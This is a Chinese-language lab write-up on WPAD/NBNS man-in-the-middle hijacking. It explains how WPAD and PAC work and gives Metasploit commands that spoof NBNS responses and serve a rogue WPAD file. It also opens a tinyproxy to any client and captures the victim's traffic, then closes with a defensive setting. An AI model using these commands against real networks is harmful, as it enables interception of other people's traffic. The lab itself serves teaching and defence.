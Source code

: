 # WPAD中间人劫持

----------

## WPAD简介
### 概述
* Web Proxy Aytodiscovery Protocol(WPAD)是让web浏览器使用DNS或DHCP自动检测PAC文件位置的协议。通常情况下，浏览器会先使用DHCP来查找PAC文件的位置。
* ![](images/wpad.png)
### 通过DHCP查询
* 假设客户端网络名称是`laptop01.us.division.company.com`。客户端想DHCP server发送DHCPINFORM，服务器端返回的DHCP ACK中的252项记录了PAC文件的位置。
* ![](images/wpad_diagram1.png)
### 通过DNS查询
* `wpad.company.com`的主机存储了名为wpad.bat的PAC文件，浏览器尝试从`http://wpad.us.division.company.com/wpad.dat.`下载PAC文件，若无法解析该域名，则进入子节点查询，直到找到PAC文件。
* ![](images/wpaddns_diagram2.png)
## PAC简介
* Proxy Auto-Configuration(PAC)文件是Web浏览器用于为给定URL选择代理的方法。选择代理的方法被写成JavaScript函数封装在PAC文件中。若浏览器无法通过DHCP和DNS加载PAC文件，则浏览器将直接进行网路访问。
	* 举例一个PAC文件，内容如下：
	<pre>
	function FindProxyForURL(url, host) {
	if (shExpMatch(url,"ipcheckit.com/data/*"))
	 return "DIRECT";
	}
	if (isInNet(myIpAddress(), "10.10.1.0", "255.255.255.0"))
	 return "PROXY proxy182.scansafe.net:8080; PROXY proxy137.scansafe.net:8080";
	</pre>
	* 上述函数中,用户请求的URL将和`ipcheckit.com/data/*`进行匹配，如果匹配成功，则直接进行网络访问。否则，判断用户IP地址是否在`10.10.1.*`范围内，如果在，则浏览器的流量将通过`proxy182.scansafe.net:8080`进行转发,若此代理发生故障,则将请求转发给`proxy137.scansafe.net:8080`.
	* 通常情况下PAC文件被命名为proxy.pac
* PAC文件部署方式
	* 本地托管
	* 托管到Windows share
	* **托管到web服务器**

## 实验过程
### step0 实验环境
* 攻击者
	<pre>
	名称：Attacker
	版本:Linux Debian(64-bit)
	网络模式：NAT 网络
	网卡：eth0
	IP：10.0.2.10
	</pre>
* 受害者
	<pre>
	名称：Victim
	版本:Windows 7(64-bit)
	网络模式：NAT 网络
	网卡：eth0
	IP：10.0.2.12
	</pre>
* 使用工具
	<pre>
	Metasploit #渗透测试工具，本实验中用于监听NBNS广播及响应
	tinypyoxy #搭建Linux代理服务器
	</pre>
### step1 寻找漏洞
* NetBios Name Service(NBNS)
	* NBNS是`NetBIOS-over-TCP`协议的一部分,在Windows中通常称为WINS(NetBIOS-over-TCP),其功能与DNS相似,将域名转换为IP地址。在Windows中此服务默认开启，开机或开启浏览器都会向所在网段发送NBNS广播,尝试通过伪装WPAD服务器来向靶机发送攻击者自己编写的PAC文件.
	* 过程
		![](images/pro.png)
### step2 漏洞测试
* 监听NBNS查询
	<pre>
	use auxiliary/spoof/nbns/nbns_response
	set regex WPAD
	set spoofip 10.0.2.10
	run
	</pre>
* 配置WPAD服务器
	<pre>
	use auxiliary/server/wpad
	set proxy 10.0.2.10
	run
	</pre>
* Attacker搭建代理服务器
	* 编辑配置
		<pre>
		vim /etc/tinyproxy/tinyproxy.conf
		/# Allow 127.0.0.1 注释该行内容，表示对任意IP都进行代理
		PORT 8080 #代理端口默认为8888，改为8080
		</pre>
	* 重启配置<pre>/etc/init.d/tinyproxy restart</pre>
	* 开启代理服务<pre>service tinyproxy start</pre>
* 开启抓包器<pre>root@Attacker:~# tcpdump -i eth0 -w 20190105</pre>
* Victim发送NBNS广播，在浏览器搜索`bing.com`作为测试。能正常加载网页。
	![](images/msf.png)
* 打开wireshark查看抓包结果,可以看到红红色框内的过程:
	1. Victim发送nbns广播
	2. Attacker伪装的NetBIOS服务器响应
	3. Victim请求PAC文件
	4. Attacker发送PAC文件
	![](images/success.png)
* 黄色框内是Victim访问的网站，数据经过Attacker进行转发。
* 数据包分析
	* 靶机请求PAC文件
	* ![](images/pac.png)
	* 攻击者发送PAC文件，文件内容:如果是本地地址，直接进行网络访问，否则通过`10.0.2.10:8080`进行代理。
	* ![](images/pac_.png)
* 查看靶机NB缓存，发现缓存内有IP为`10.0.2.10`的WPAD服务器地址，攻击成功。
	![](images/NB.png)
* 至此，实验成功。
## 遇到的问题
* 靶机在进行网络访问时数据包并没有经过攻击者
	* 用wireshark分析抓包结果发现靶机向攻击者的`8080端口`发送`TCP SYN`时，攻击者回复的是`RST+ACK`。
		![](images/error.png)
	* 分析:很显然，这表示攻击者的`8080端口`并未开放，靶机在尝试建立TCP连接失败后采用PAC文件提供的第二种方式进行网络访问，这就表明攻击者并没有开启代理服务。回想我之前做实验时认为`msfconsole`在搭建WPAD服务器时同时搭建了代理服务器，看来并不是。所以使用工具`tinyproxy`搭建代理服务器，问题解决。
		
### step3 漏洞防护
* 让计算机不去自动检测WPAD服务即可：网络→Internet选项→连接→局域网设置→取消勾选的`自动检测设置(A)`
	![](images/internet.png)
## 参考资料
* [WIKI_WPAD](https://en.wikipedia.org/wiki/Web_Proxy_Auto-Discovery_Protocol)
* [CISCO_WPAD](https://www.cisco.com/c/en/us/td/docs/security/web_security/connector/connector3000/WPADAP.html)
* [How PAC Files Work](https://www.cisco.com/c/en/us/td/docs/security/web_security/connector/connector3000/PACAP.html#wpxref19672)
* [wpad-introduction](https://findproxyforurl.com/wpad-introduction/)
* [wireshark_NBNS](https://wiki.wireshark.org/NetBIOS/NBNS)
* [2017-2/zan_mw](https://github.com/kjAnny/ns/tree/collaboration/2017-2/zan_mw)
* [wpad_weakness_en.pdf](https://www.ptsecurity.com/upload/corporate/ww-en/download/wpad_weakness_en.pdf)